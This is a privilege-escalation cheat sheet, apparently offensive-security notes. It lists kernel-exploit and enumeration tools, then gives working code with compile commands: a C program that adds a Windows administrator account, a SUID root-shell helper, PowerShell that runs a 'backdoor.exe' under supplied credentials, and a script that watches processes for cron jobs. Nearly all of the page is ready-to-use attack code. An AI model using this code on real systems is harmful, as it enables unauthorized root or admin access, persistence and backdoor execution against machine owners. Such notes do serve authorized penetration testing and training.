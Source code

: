 Kernel Exploits:

    abatchy17’s Windows Exploits
    lucyoa’s kernel exploits

Scripts:

    LinuxPrivChecker
    LinEnum
    PowerUp

Scripts

useradd.c

Windows - Add user.

#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile
i686-w64-mingw32-gcc -o useradd.exe useradd.c

SUID

Set owner user ID.

int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}

# Compile
gcc suid.c -o suid

Powershell Run as

Run file as another user with powershell.

echo $username = '<username>' > runas.ps1
echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1

Process Monitor

Monitor processes to check for running cron jobs.

#!/bin/bash

# Loop by line
IFS=$'\n'

old_process=$(ps -eo command)

while true; do
	new_process=$(ps -eo command)
	diff <(echo "$old_process") <(echo "$new_process") | grep [\<\>]
	sleep 1
	old_process=$new_process
done
